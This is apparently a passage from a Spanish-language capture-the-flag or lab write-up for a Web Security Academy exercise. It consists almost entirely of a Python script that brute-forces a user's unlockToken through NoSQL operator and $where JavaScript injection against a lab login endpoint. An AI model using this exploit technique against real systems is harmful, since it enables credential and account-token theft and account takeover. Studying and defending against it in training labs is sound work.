 `Modificamos` el `script` de `python` para `bruteforcear` el `valor` del campo `unlockToken`

{% raw %}
```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, sys, string
import json

def def_handler(sig, frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "https://0a7c00ce03078e0f81727b64005d00fb.web-security-academy.net/login"

characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(0, 16):
            for character in characters:
                json = {
                    "username": "carlos",
                    "password": {"$ne": "testing"},
                    "$where": "function(){ if(this.unlockToken.match('^.{%d}%s.*')) return 1; else 0; }" % (position, character)
                }

                headers = {
                    "Content-Type": "application/json"
                }

                p1.status(json['$where'])

                r = requests.post(url, headers=headers, json=json)

                if "Account locked: please reset your password" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
{% endraw %}

